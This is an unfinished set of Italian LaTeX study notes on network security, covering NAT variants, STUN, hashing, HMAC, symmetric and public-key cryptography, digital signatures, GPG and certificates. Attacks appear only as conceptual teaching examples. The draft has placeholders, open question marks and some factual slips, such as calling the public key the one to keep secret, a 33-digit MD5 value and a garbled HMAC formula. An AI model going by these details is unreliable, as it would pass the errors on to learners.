\title{Riassunto Network Security and Management}
\author{
        Tommaso Puccetti \\
                Studente presso Universita degli studi di Firenze
}
\date{\today}

\documentclass[12pt]{article}
\usepackage{graphicx}
\usepackage{hyperref}

\begin{document}
	
	\maketitle
	\tableofcontents
	\listoftables
	\listoffigures
	
	\section{Security Basics}
		Proprietà della \textbf{Security}:
		\begin{itemize}
			\item \textbf{Confidentiality:} assicurare che persone non autorizzate accedano alle informazioni.
			\item \textbf{Integrity:} assicurare che le informazioni non vengano alterate da individui non autorizzati, in un modo che non sia individuabile dagli utenti autorizzati
			\item \textbf{Authentication}: Assicurarsi che gli utenti siano chi  dicono di essere.
		\end{itemize}
		La security non deve essere confusa con la sicurezza. \textbf{Security:}
		\begin{itemize}
			\item La qualità o lo stato di essere sicuri (liberi da pericoli, da paura o ansi, libero dalla prospettiva di essere licenziato);
			\item Qualcosa di dato, depositato o impegnato con lo scopo di rendere un impegno un obbligo;
			\item Uno strumento di investimento nella forma di un contratto, che fornisce l'evidenza della sua proprietà;
			\item Qualcosa che protegge (misure messe in atto contro lo spionaggio o sabotaggio, crimini o attacchi.)
		\end{itemize}
		Per quanto riguarda la safety:
		\begin{itemize}
			\item La condizione di essere sicuri rispetto al subire o causare danno, infortuni, o perdite.
			\item Un dispositivo progettato per prevenire operazione involontarie o pericolose.	
		\end{itemize}
		La sicurezza ha un \textbf{costo}: un sistema sicuro è \textbf{più complesso da realizzare e da manutenere}, in definitiva \textbf{più complesso}. BLABLABLA
		
	\section{NAT}
		\textbf{Problema}: \textit{gli indirizzi IP sono pochi e costosi, per di più non sempre vogliamo esporre la struttura interna di una Intranet (rete locale)}.\\
		Pe questo motivo vengono utilizzate classi di indirizzi IP (IPv4) \textbf{non-routable} come definito in \textbf{RFC 1918}, riservati alle reti locali con lo \textbf{scopo di ridurre le richieste su indirizzi pubblici}. I pacchetti con tali indirizzi per l'instradamento e l'indirizzamento tramite protocollo IP da router internet.\\
		Si utilizza il \textbf{NAT} e \textbf{NAPT} mascherano un indirizzo tramite proxy a livello IP:
		\begin{itemize}
			\item Si trasforma un indirizzo sorgente (IP Number e port) in un altro indirizzo.
			\item Il server NAT viene visto all'esterno come la sorgente della comunicazione
			\item Il NAT è \textbf{trasparente} per l'utente interno 
		\end{itemize}
		
		\textit{Classi di indirizzi privati:\ref{fig:1}}
		\begin{figure}[h!]
			\centering
			
\includegraphics[scale=0.40]{img/class.PNG}
			\caption{Security concepts and relationships\label{fig:1}}
		\end{figure}
		
		\subsection{NAT statico}
			\begin{itemize}
				\item Si ha un mapping uno a uno tra indirizzi esterni ed interni.
				\item Può essere utilizzato in congiunzione con un firewall.
				\item Non risolve il problema della scarsità di indirizzi.
				\item Risulta molto facile da implementare	
			\end{itemize}
		
		\textit{NAT Statico:\ref{fig:2}}
		\begin{figure}[h!]
			\centering
			
\includegraphics[scale=0.40]{img/static.PNG}
			\caption{Security concepts and relationships\label{fig:2}}
		\end{figure}
		
		\subsection{NAT Dinamico}
			\begin{itemize}
				\item Mapping dinamico tra indirizzi esterni ed indirizzi esterni
				\item Risolve il problema della scarsità degli indirizzi
				\item Richiede Server stateful ( mantiene informazioni di stato dell'utente durante una sessione).
			\end{itemize}
		\textit{NAT Dinamico:\ref{fig:3}}
		\begin{figure}[h!]
			\centering
			
\includegraphics[scale=0.60]{img/dinamic.PNG}
			\caption{Security concepts and relationships\label{fig:3}}
		\end{figure}
		
		\subsection{NAPT: Network Address and Port Translation}
			\begin{itemize}
				\item Mapping dinamico tra indirizzi interni e d esterni \textbf{con porte dinamiche}.
				\item Risolve il problema della scarsità di indirizzi
				\item Richied un serve stateful più complesso rispetto al NAT.
			\end{itemize}
			
			\textit{NAPT:\ref{fig:4}}
			\begin{figure}[h!]
				\centering
				
\includegraphics[scale=0.60]{img/natp.PNG}
				\caption{Security concepts and relationships\label{fig:4}}
			\end{figure}
			
			Tuttavia il NAT ha una controindicazione: implica un \textbf{ricalcolo dei checksum} IP e TCP come avviene in IPSec (standard per reti a pacchetto per la sicurezza su reti IP). Le due cose possono \textbf{interferire portando ad un completo blocco delle comunicazioni}. Si hanno problemi sia con la funzione \textbf{AH} (Authentication Header, protocollo per controllo integrità di pacchetto, garantisce authentication pacchetto per pacchetto tramite checksum a chiave simmetrica) sia con la funzione \textbf{ESP} (Encapsulating Security Payload utilizzato per autenitcità confidenzialità e integrità) di IPSEC\\
			
			INSERIRE natipsec\\
			
			\textbf{La soluzione} può essere quella di applicare il NAT e poi IPSEC, o in alternativa eseguirli insieme. Da tenere in considerazione il fatto che un Host dietro a un NAT non può cominciare una comunicazione IPSec (???????). Inoltre la \textbf{co-locazione di NAT e IPSEC è un potenziale pericolo per la sicurezza}. La terza opzione è quella di utilizzare un tunnel IP-over-IP ma è deprecabile.
		\subsection{Basi}
			I pacchetti non routable non sono trasportati in internet (ovvero i router li scartano) poichè il loro indirizzo IP non è univoco. Serve pertanto un traduzione da indirizzi non routable a indirizzi routable: il NAT si occupa di questo.\\
			
			INSERIRE basi\\
			
			Un NAT svolge le seguenti \textbf{operazioni} sia quando arriva un pacchetto sull'interfaccia \textbf{interna} che su quella \textbf{esterna}:
			\begin{itemize}
				\item Si cerca un \textbf{binding} se c'è si trasla il pacchetto e si esegue un \textbf{forward} di quest'ultimo, altrimenti si \textbf{scarta} il pacchetto
				\item Allo scadere di un \textbf{timer} specifico si \textbf{cancella il binding}
			\end{itemize}
		\subsection{NAT RFC 1631 e RFC 2776 }  
			Per quanto riguarda \textbf{RFC 1631} si varia \textbf{solo gli indirizzi IP}, in questo modo tuttavia non risolviamo il problema della scarsità di indirizzi. Infatti il numero di indirizzi necessari è pari al numero di PC che vogliono utilizzare \textit{contemporaneamente} lo stesso protocollo.\\
			
			INSERIRE 1631\\
			
			In RFC 2776 invece, si varia \textbf{sia indirizzi IP che le porte}. In tal modo il numero delle sessione contemporanee (ovvero il numero di bindings contemporanei) è pari circa a 64000 (escludendo le porte ben conosciute.)
		\subsection{NAT binding}
			Per binding intendiamo una relazione: $${IP,proto,port}(int)<=>{IP,Proto,Port}(ext) $$
			In realtà quello che è inteso come bindig è composto da \textbf{Binding + Filter}.
			\begin{itemize}
				\item Il primo associa indirizzo porta interna a un indirizzo porta esterna (realizza la funzione $interno <=> esterno$)
				\item Il secondo decide se e quali pacchetti dall'esterno vanno ritradotti. \textbf{\textit{Attenzione}}: il comportamento del filter genera differenti comportamenti del NAT, alcuni voluti altri no.
			\end{itemize}
			Il binding varia a seconda dei protocolli che utilizziamo, nello specifico parliamo delle differenze che si riscontrano tra \textbf{TCP} e \textbf{UDP} a livello di NAT:
			\begin{itemize}
				\item TCP è \textbf{stateful}, dunque il binding è aggiornato in base ad un timer che varia a seconda dello stato della connessione e della dimensione della CWIN. Per questo protocollo il NAT ha un comportamento \textbf{symmetric} ossia \textbf{binding e filter sono basati sulla stessa quintupla} 
				$$(protocollo, IP, porte sorgente-destinazione) $$
				(Quintupla ?????)\\
				Per questo motivo \textbf{le comunicazioni  devono partire dall'interno} e non è possbili effettuare una callback, quindi PASSIVE FTP (????????). Inoltre il \textbf{demultiplexing è definito a livello TCP} 
				\item UDP è \textbf{stateless}, il binding è basato solo su un timer e sulla conoscenza del comportamento dell'applicazione (informazioni sulle porte utilizzate ad esempio). Il \textbf{demultiplexing} è fatto a \textbf{livello applicazione}, in questo modo una sola applicazioni può utilizzare una sola socket in uscita per due stream diversi con destinatari diversi (a differenza di TCP).
			\end{itemize}
			\textit{\textbf{Abbiamo bisogno di un comportamento diverso del NAT per UDP}}.\\
			Esistono diversi modi di implementare NAT per UDP, queste diverse implementazioni dipendono dalle modalità di esecuzione del Filter. In base a come si comporta NAT alcuni applicativi possono funzionare o meno, in parte o del tutto.
			\subsubsection{Symmetric NAT}
				Funziona esattamente come il symmetric per TCP, non funzioneranno i programmi che hanno bisogno di referral e handover (?????)\\
				
				INSERIRE sym\\
				
			\subsubsection{Full Cone NAT}
			 	\textbf{Il filter non fa niente}. Tutto e tutti potranno raggiungere  il sorgente (compresi malintenzionati, permetto perfino di eseguire un \textbf{port scanning})\\
			 	
			 	INSERIRE cone\\
			 
			 \subsubsection{Restricted Cone NAT}
			 	I\textbf{l Filter è basato sull'IP del destinatario.} Significa che accettiamo comunicazioni da porte diverse purchè abbiano lo stesso IP ( provengano dallo stesso Host). \textbf{Non c'è controllo sul numero di porta}. Questa politica del Filter è restrittiva poichè non permette a programmi come MSN e mulo di funzionare\\
			 	
			 	INSERIRE rest\\
			 	
			 \subsubsection{Port Restricted Cone NAT}
			 	\textbf{Il filter è basato sulla porta del destinatario}. Funzionano tutti i programmi UDP anche se con delle limitazioni.\\
			 	
			 	INSERIRE port\\
			 	
			 \subsubsection{NAT - STUN}
			 	\textit{Come può un'applicazione conoscere il tipo di NAT ?}\newline
			 	Si utilizza un protocollo chiamato \textbf{STUN}, un protocollo \textbf{request-reply}. Esso permette alle applicazioni in esecuzione su un computer di scoprire la presenza ed i tipi di NAT e firewall che si interpongono tra il computer e la rete pubblica. Permette inoltre a questi computer di conoscere gli indirizzi IP e le porte con cui il dispositivo NAT li sta rendendo visibili sulla rete pubblica. \textbf{Ha a disposizione due porte sul client e due porte e due indirizzi ip sul server}\\
			 	STUN non grarantisce una conoscenza accurata, infatti il \textbf{NAT può essere non deterministico}, ossia cambiare il comportamento a seconda della disponibilità delle risorse. Un altro problema si riscontra nella possibilità che ci siano più NAT nel percorso sorgente-destinazione, in questo caso la classificazione non è rigorosa e il comportamento imprevedibile (Il secondo livello di NAT potrebbe non avere lo stesso comportamento del primo)
		\subsection{NAT: ulteriori classificazioni}
			I NAT possono essere classificati in base a tre parametri:
			\begin{itemize}
				\item Come viene fatto il \textbf{binding}.
				\item Come vengono \textbf{aggiornati i filters.}
				\item Quando si riavviano i \textbf{timers.}
			\end{itemize}
			\subsubsection{In base al Binding}
				\begin{itemize}
					\item \textbf{Endpoint}: il NAT riusa il binding per tutte le sessioni provenienti da stesso IP/PORTA, IP/PORTA esterni non vengono valutati (\textbf{come full cone NAT})
					\item \textbf{Endpoint}:Il NAT riusa il binding per tutte le sessioni provenienti dalla stesso IP/porta verso lo stesso IP esterno (la porta non si considera).
					\textbf{E’ come un Restricted Cone NAT.}
					\item \textbf{Endpoint address and port dependent}: come symmetric NAT.  	
				\end{itemize}
			\subsubsection{In base al Port Binding}
				\begin{itemize}
					\item \textbf{Port preservation}: Il NAT tenta di mantenere la porta di origine. Se due Host interni utilizzano la stessa porta di origine uno l'avrà cambiata l'altro no.
					\item \textbf{Port overloading}: Il NAT fa port preservation in modo aggressivo, un secondo tentativo di binding fa scadere il binding esistente
					\item \textbf{Port}: ??????
				\end{itemize}
			\subsubsection{In base al Timer Refresh}
				\begin{itemize}
					\item \textbf{Bidirectional}: il timer è aggiornato dai pacchetti in entrambe le direzioni.
					\item \textbf{Outbound}: Solo pacchetti interno verso l'esterno rinfrescano i timer. Risulta necessario usare un \textbf{keep alive}. Inoltre il timer potrebbe essere per session o per binding ( nel caso di riuso del binding per piu sessioni)
					\item \textbf{Inbound}: solo i pacchetti dall'esterno verso l'interno rinfrescano il timer, anche in questo caso c'è bisogno di un keep- alive
					\item \textbf{Transport protocol state}: come in TCP ma si possono usare altre informazioni (da la possibilità di fare attacchi DOS).
				\end{itemize}
			\subsubsection{In base all'External Filtering }
				\begin{itemize}
					\item \textbf{Endpoint independent}: non filtra o scarta pacchetti (full cone)
					\item \textbf{Endpoint address dependent}: Filtra i pacchetti che non provengono dall'IP originario del binding (restricted cone).
					\item \textbf{Endpoint address and port dependent}:  Filtra i pacchetti che non provengono dall'IP/porta originario del binding (port restricted cone o symmetric).
				\end{itemize}
			\subsection{Considerazioni}
				Per quanto riguarda le \textbf{applicazioni p2p} esse tendono ad aggirare il NAT ma così facendo creano spesso problemi di sicurezza. Per quanto riguarda ICMP rischia di fallire per lo stesso motivo di IPSEC (nel payload sono spesso contenute info su IP e porta originante). Rispetto all'\textbf{IP fragmentation} il problema è quello di ricostruire i pacchetti (o almeno mantenute informazioni sul primo pacchetto), perchè nei frammenti successivi \textbf{manca header UDP/TCP}, ma \textbf{potrebbe essere un attacco a frammentazione}. Inoltre il primo pacchetto può arrivare fuori sequenza. Una soluzione è quella di provare a configurare il nat in modo che esso stesso modifichi il contenuto del payload.
			\subsubsection{NAT: UPnP e IGD}
				\textbf{Universal Plug n Play}: Set di protocolli per la definizione  e l'annuncio di device e servizi. Un dispositivo compatibile UPnP può unirsi dinamicamente ad una rete, ottenendo un indirizzo IP, annunciare il suo nome, trasmettere le proprie capacità su richiesta e venire a conoscenza della presenza e delle capacità degli altri device della rete.\\
				L'\textbf{Internet Gateway Device (IGD) } permete ad un device UPnP di scoprire l'indirizzo esterno di un NAT e di creare filters e bindings per i suoi servizi in modo automatico. In questo modo le porte sono aperte in modo incontrollato  e potrebbero sovrascrivere i binding esistenti... come per la porta 80 (implementato in Windows). \newpage
	
	
	\section{Crittografia}
		\textit{La crittografia è la scienza di mantenere segrete le informazioni.}\\
		Oggi la criptografia è utilizzata, oltre che per la segretezza, per tutti gli altri servizi di sicurezza che abbiamo visto, \textbf{esclusa la disponibilità del servizio}. Infatti un uso diffuso delle tecniche di cifratura aumenta le possibilità di incorrere in attacchi \textbf{DoS}.
		\begin{itemize}
			\item Protezione documenti:
			\begin{itemize}
				\item \textbf{Integrità}
				\item \textbf{Segretezza}
				\item \textbf{Autenticazione}
				\item \textbf{Non ripudiabilità}
			\end{itemize}
			\item Verifica identità dei corrispondenti: \textbf{controllo degli accessi}. 
		\end{itemize}
		Vediamo le principali funzioni crittografiche.
		\subsection{Funzioni Hash}
			Risolvono il problema della \textbf{garanzia di integrità} di un documento trasmesso. \\
			\textit{Una funzione hash è una funzione unidirezionale che si applica ad un'informazione, generando un'impronta (\textbf{digest}) di dimensione fissa che è funzione dei dati in ingresso}. Generalmente sono sequenze di operazioni elementari quali \textbf{shift} e \textbf{XOR} sui dati, quindi \textbf{molto veloci da computare}.\\
			
			INSERIRE sha\\
			
			\textbf{Esempio}:
			\begin{itemize}
				\item A invia a B un messaggio M, calcola \textbf{H(M) = D} ed invia anche D.
				\item B riceve M e D, calcola H(M)= D'.\textbf{ Se D=D'} si ha la garanzia che il messaggio non è stato modificato.
				\item E potrebbe intercettare solo M e modificarlo, ma quando B riceverà anche D, l'hash sarà diverso e quindi B si accorgerà che M è stato modificato. Per riuscire a modificare M in M' E deve intercettare anche D e cambiarlo in H(M').
			\end{itemize}
			Un'applicazione tipica è quella della distribuzione di file eseguibili: quando scaricate un eseguibile il file deve essere identico a quello che il produttore ha generato, anche un bit puà provocare un malfunzionamento. Con le ISO degli OS viene fornito il codice \textbf{md5} del file che è il digest creato con l'hash. \\
			Una funzione hash deve avere i seguenti \textbf{requisiti minimi}:
			\begin{itemize}
				\item \textbf{Compressione:} H mappa un input di lunghezza finita e arbitraria in un output H(x) di lunghezza fissata n.
				\item \textbf{Facilità di computazione:} dato H e un input x, H(x) è facile da computare 
			\end{itemize}
			In aggiunta abbiamo:
			\begin{itemize}
				\item \textbf{preimage resistance:} per ogni output è computazionalmente infattibile trovare un qualsiasi input che tramite hash genera quell'output. Dato un output y è impossibile trovare x tale che H(x)=y.
				\item \textbf{2nd preimage resistance:} è computazionalmente infattibile trovare un qualsiasi secondo input che ha lo stesso output di uno specifico primo input. Infattibile trovare x!=x' tale che H(x')=H(x).
				\item \textbf{Resistenza alla collisione:} impossibile trovare qualsiasi coppia di input x e x' che producono lo stesso digest ( H(x')=H(x)).
			\end{itemize}
			Uno dei \textbf{limiti} delle funzioni hash risiede nel fatto che se l'attaccante intercetta il digest può modificarlo, facendo passare inosservata la modifica al contenuto del file (si possono usare più funzioni hash). Per questo motivo le hash si accompagnano ad altri metodi di autenticazione.
			\subsubsection{HMAC}
				Keyed-hash-message authentication code \textbf{accoppia l'utilizzo di una chiave simmetrica ad una funzione hash} per garantire, oltre all'integrità, \textbf{l'autenticazione} dei dati. Per \textbf{chiave simmetrica} intendiamo una stringa opportunamente lunga scelta in modo meno predicibile possibile. Spesso si utilizzano delle funzioni hash per generare una chiave simmetrica a partire da una data \textbf{password}:
				$$ K = md5(password) = 0x12ab5893092ba4183f3a345872b34f233$$
				Se si dispone di una buona funzione hash si può generare un HMAC componendo la funzione hash con la chiave.
				$$HMACK (M) = H((K \oplus opad) _ H((K \oplus ipad) \vee M)) $$
				\textbf{In questo modo il digest può essere calcolato solo se si conosce la chiave K.}\\
				Passiamo ora a descriverne il \textbf{funzionamento:}
				\begin{itemize}
					\item A e B si mettono d'accordo su una password utilizzando un canale sicuro.
					\item A per inviare un messaggio a B :
					\begin{enumerate}
						\item calcola K = md5(password)
						\item calcola $HMACK_{K}(M)$
						\item invia a B la coppia M, $HMACK_{K}(M)$
					\end{enumerate}
					\item M e $HMACK_{K}(M)$ possono essere inviate accoppiate nello stesso pacchetto.
				\end{itemize} 
			
				INSERIRE hmac\\
				
				I \textbf{vantaggi rispetto ad una semplice funzione hash} sono:
				\begin{itemize}
					\item Se E intercetta sia M che $HMACK_{K}(M)$ per cambiare M dovrebbe:
					\begin{itemize}
						\item Modificare M in M'
						\item ricalcolare $HMACK_{K}(M)$
					\end{itemize}
				\item tuttavia E non è in possesso di M (K no?????) quindi non può calcolare l'HMAC.
				\end{itemize}
				Schemi di questo tipo sono utilizzati per garantire integrità e implicitamente anche l'autenticazione di pacchetti livello MAC in molte tipologie di reti. \\
				Di seguito una lista delle principali problematiche:
				\begin{itemize}
					\item \textbf{Problema di gestione}: A e B hanno bisogno  di una canale sicuro per scambiare la chiave, non utile per comunicazioni via internet.
					\item \textbf{Attacchi di forza bruta}: E potrebbe intercettare una pacchetto e cercare di indovinare la chiave K: \begin{itemize}
						\item dato M, e K = 0x00000000000000000000000000000000
						\item D = HMACK (M) ? se è vero allora K è la chiave giusta, altrimenti
						\item K = 0x00000000000000000000000000000001, riprova. . .
					\end{itemize}
					Un attacco di questo tipo è \textbf{computazionalmente impegnativo} per calcolare tutte le chiavi possibili ($2^{128}$) ci vogliono migliaia di anni. Tuttavia se la chaive è generata da una password l'attacco \textbf{diventa possibile} utilizzando un \textbf{dizionario}:
					\begin{itemize}
						\item dato M e K = md5(abaco), D = HMACK (M)
						\item se è falso, K = md5(abate). . .
					\end{itemize}
					Le parole di un dizionario possono essere decine di migliaia, per generarle tutte ci vogliono pochi minuti.\textit{\textbf{ Per questo le password non devono essere scelte come parole esistenti!}}
				\end{itemize}
		\subsection{Cifratura a chiave simmetrica}
			\textbf{Principio di Kerchoff}:
			\begin{itemize}
				\item Gli algoritmi crittografici devono essere \textbf{noti a priori}.
				\item Un prodotto che garantisce cifratura con \textbf{algoritmo segreto}, non è un buon prodotto.
			\end{itemize}
			Spieghiamo il \textbf{funzionamento	}:
			\begin{itemize}
				\item A e B si accordano su una chiave K o una password da cui generare K (come in HMAC).
				\item I messaggi possono essere decifrati solo con una chiave K.
				\item Stesso algoritmo per cifrare e decifrare.					
			\end{itemize}
				
			INSERIRE des e des2\\
				
			Tra i \textbf{problemi} che si riscontrano si ha la \textbf{poca flessibilità} dovuta alla necessità per A e B di scambiarsi le chiavi in anticipo. Inoltre ci espone ad \textbf{attacchi di forza bruta} anche se più difficili del caso HMAC (per E sarà più difficile ad ogni tentativo stabili se il messaggio ottenuto è corretto)\\
			\textbf{Possiamo combinare HMAC e cifratura a chiave simmetrica per ovviare a questi problemi}:
			\begin{enumerate}
				\item Si genera HMAC con chiave K
				\item Si cifra tutto il pacchetto compreso l'HMAC con una seconda chiave K'.
			\end{enumerate}
			In questo modo abbiamo segretezza e \textbf{integrità} dei dati oltre che ad una forma di \textbf{autenticazione} in relazione a come vengono scambiate le chiavi. Questo approccio viene utilizzato per le reti LAN nelle quale si può impostare a mano sulle macchine.
			
		\subsection{Cifratura a chiave pubblica/privata}
			\begin{itemize}
				\item A e B possiedono due chiavi ciascuno (possono essere generate insieme da programmi appositi)
				\begin{itemize}
					\item Una chiave pubblica $Pub_{A}$ e $Pub_{B}$
					\item Una chiave privata $Priv_{A}$ e $Priv_{B}$
				\end{itemize}
				\item Le chiavi private si devono tenere segrete (vitale che A sia unico possessore di $Pub_{A}$ così per B)
				\item La chiave pubblica può essere pubblicata.
			\end{itemize}
			\textbf{Caratteristiche}:
			\begin{itemize}
				\item Ciò che è cifrato con chiave pubblica può essere decifrato solo con la rispettiva chiave privata.
				\item Computazionalmente impossibile risalire ad una chiave privata da una pubblica.
				\item Se A cifra un messaggio utilizzando la chiave pubblica di B solo B potrà decifrarlo con la sua chiave privata. \textbf{Si ottiene segretezza}.
			\end{itemize}
			\textbf{Non è necessario concordare preventivamente una chiave di cifratura comune.}
		
			INSERIRE pubpriv\\
		
		\subsection{Firma digitale}
			\textbf{Le chiavi pubbliche e private sono invertibili}: A può utilizzare la sua chiave privata per criptare un messaggio che può essere decriptato utilizzando la relativa chiave pubblica. Il messaggio risulta dunque \textbf{decifrabile da chiunque} (la chiave è appunto pubblica) dunque \textbf{non garantisce la segretezza}. Si puà tuttavia \textbf{garantire l'autenticazione e la non ripudiabilità dei dati}: visto che A è l'unico in possesso di $Priv_{A}$ chiunque decifra il messaggio con la sua chiave pubblica \textbf{è sicuro che il messaggio proviene da quest'ultimo: FIRMA DIGITALE.}\\
			\newline
			\subsubsection{Problemi}
				Un attacco che possiamo compiere contro questo tipo di cifratura è il \textbf{Man in the middle}:
				\begin{itemize}
					\item A invia a B $Pub_{A}$
					\item E intercetta il messaggio e scambia $Pub_{A}$ con $Pub_{E}$
					\item B riceve la chiave $Pub_{E}$ convinto che sia quella di A e cifra il suo messaggio con $Pub_{E}$.
					\item E intercetta il messaggio, lo decifra, e lo cifra nuovamente stavolta utilizzando $Pub_{A}$ e lo invia ad A che non si accorge di niente.
					\item A riceve il messaggio che però può essere letto e/o modificato da E
				\end{itemize}
				Questo tipo di attacco è sempre possibile quando A e B non conoscono le rispettive chiavi, che dunque dovranno essere scambiate tramite canale sicuro. Si presenta lo \textbf{stesso problema di HMAC e chiave simmetrica}: \textbf{l'unica differenza è che per sicuro non intendiamo segreto ma semplicemente autenticato}.
			\subsubsection{Soluzioni: Fingerprint}
			???????
			\subsubsection{Soluzioni: Keyserver}
				Sono \textbf{server nei quali è possibile effettuare l'upload delle chiavi pubbliche}. Tuttavia il server non assicura la corrispondenza della chiave pubblica all'identità dichiarata. Si possono inserire info come nome e email, dunque è facile tramite motore di ricerca trovare la chiave che vogliamo (BUSH)
			\subsubsection{Soluzioni: Web of Trust}
				\textbf{Rete di contatti attraverso la quale i partecipanti certificano l'identità altrui.} Il principio di fondo è il seguente: se A conosce personalmente B può certificare che $Pub_{B}$ ovvero garantire che una certa chiave appartenga effettivamente a B. C, conoscendo A, ha una garanzia maggiore sulla corrispondenza effettiva tra $Pub_{B}$ e B stesso. Ogni utente ha interesse che la propria chiave pubblica sia certificata dal più alto numero di persone possibile all'interno della rete. \textbf{Le certificazioni sono realizzate utilizzando la propria chiave privata per firmare la chiave pubblica altrui}. Esempio: 
				\begin{itemize}
					\item A genera una sua coppia di chiavi PubA e PrivA . Nella c’e’ scritto che la chiave appartiene ad A. chiave pubblica
					\item A va da B, gli mostra un documento e gli consegna la fingerprint della chiave.
					\item B scarica la chiave da un keyserver, controlla la fingerprint.
					\item B a quel punto può firmare con la propria PrivB la chiave pubblica PubA .
					\item B carica la chiave firmata sul keyserver.
				\end{itemize}
			\subsubsection{In pratica: PGP}
				\textbf{Pretty Good Privacy} è stato il primo programma che permetteva di scambiarsi chiavi pubbliche/private e inviarsi messaggi privati. Il governo americano osteggiava la sua distribuzione al pari di tutto ciò che utilizzava la crittografia. Nasce come codice sorgente poi chiuso e fatto divenire prodotto commerciale.\\
				Per ovviare a questo, nasce GPG GNU su licenza aperta (GNU GPL).
				\begin{itemize}
					\item c\textbf{ome creare chiavi}: gpg –gen-key
					\item \textbf{come esportare chiavi}: gpg –export –armor C93F299D
					\item \textbf{come usare un keyserver:}
					gpg –keyserver pgp.mit.edu –send-key C93F299D
					\item \textbf{come cifrare messaggi}: gpg –encrypt -r C93F299D file
				\end{itemize}
		\subsection{Certificati}
			Le \textbf{WOT} sono comode (si basano sul numero di partecipanti, e sulla fiducia reciproca) ma in contesti formali abbiamo bisogno di garanzie aggiuntive, affinchè una chiave pubblica sia associata ad una persona. Abbiamo bisogno di \textbf{terze parti riconosciute}: \textbf{Enti certificatori}.\\
			Questi enti \textbf{garantiscono l'associazione tra chiave pubblica e persona fisica}. L'ente ha una sua coppia di chiavi pubblica/privata, gli utenti conoscono quella pubblica. La certificazione avviene come per le chiavi GPG (?????) ma si utilizza un formato diverso (\textbf{X.509}). \\
			\textbf{Come funziona?}
			\begin{itemize}
				\item L'utente A genera coppia di chiavi pubblica/privata
				\item A invia all'ente la chiave pubblica e un documento
				\item L'ente restituisce la chiave pubblica ad A firmata con la propria chiave privata. \textbf{Il contenitore in cui si sposta tale chiave è un certificato}.
				\item La procedura si fa una sola volta, alla creazione della chiave
				\item L'ente dunque non conosce la chiave privata, \textbf{dando così maggiore garanzia all'utente}. In casi più semplici la CA fornisce coppia di chiavi e certificato direttamente ad A.
				\item Quando un utente B deve parlare con A gli chiede il suo certificato.
				\item Dal certificato estrae la chiave pubblica di A e verifica che la firma digitale dell'ente sia corretta (\textbf{utilizzando la chiave pubblica dell'ente certificatore.}) B è sicuro dell'identità di A.
			\end{itemize}
			La firma digitale ha lo stesso valore probatorio della firma su carta.\\
			Attraverso i certificati otteniamo un accurato controllo degli accessi.\\
			
			INSERIRE CERTIFICATI\\
			\subsubsection{Certificati per tutto}
				Lo stesso modello può essere applicato in \textbf{qualsiasi contesto} anche senza il bisogno di contattare una CA ufficiale.\\
				Introduciamo l'esempio di un'azienda che ha i seguenti servizi:
				\begin{itemize}
					\item posta elettronica
					\item sito web
					\item rete interna a cui collegare pc
				\end{itemize}
				Si può creare una \textbf{CA dedicata} con la sua coppia di 
				chiavi pubblica/privata ed un certificato che è \textbf{autofirmato} (la CA dunque si \textbf{autocertifica}). In questo modo si possono rilasciare certificati a tutti gli utenti in modo tale che essi inviino solo posta firmata digitalmente. Ogni volta che un utente riceve (invia ????) una mail questa verrà autenticata e cifrata. Inoltre possiamo fornire i browser di certificati così che i server accetteranno le connessioni solo da macchine autorizzate. Quando un portatile si connette alla rete, prima di essere abilitato a ricevere e inviare traffico, dovrà autenticarsi con un server utilizzando un certificato valido.\\
				Un CA autocertificata aumenta il livello di sicurezza, ma dobbiamo sottolineare che se per qualche motivo il server su cui risiedono le chiavi pubbliche e private della CA, \textbf{verrà compromessa la sicurezza di tutta la rete}.
			\subsubsection{Certificate Revocation List: CRL}
				Un utente ha perso un portatile con un certificato valido ? Uno dei server con certificato viene compromesso? Un utente si comporta male ? \textbf{Dobbiamo riuscire ad invalidare i certificati già rilasciati} di fatto revocandoli.\\
				La CRL è \textbf{una lista di certificati revocati} dall'ente certificatore. Per fare ciò la CA tiene una lista di certificati non più validi, distribuita \textbf{firmata con la propria chiave privata}. Un utente deve essere in grado di \textbf{scaricare la CRL più aggiornata} tramite servizio offerto dall'infrastruttura di rete. Le CRL sono proprio il motivo per il quale abbiamo bisogno di un'autorità di terzi, poichè introducono un elemento di complicazione in più.
			\subsubsection{WOT di Thawte (tybyca)}
			 	COMPLETARE
			\subsubsection{Confornti e sistema misto}
				 INSERIRE confronto\\
				 Le due tecniche vengono utilizzate insieme per garantire performance e sicurezza:
				 \begin{itemize}
				 	\item $A \rightarrow B$: certificato A, $C_{A}$
				 	\item $A \leftarrow B$: certificato A, $C_{B}$
				 	\item $A \rightarrow B$: A genera un numero casuale R e invia tale numero cifrato con il certificato ci $C_{B}$
				 	\item $A \leftarrow B$: B genera un numero casuale P  e trasmette tale numero cifrato con il certificato di $C_{A}$
				 	\item si genera una chiave segreta  $K = hash(P\oplus R) $
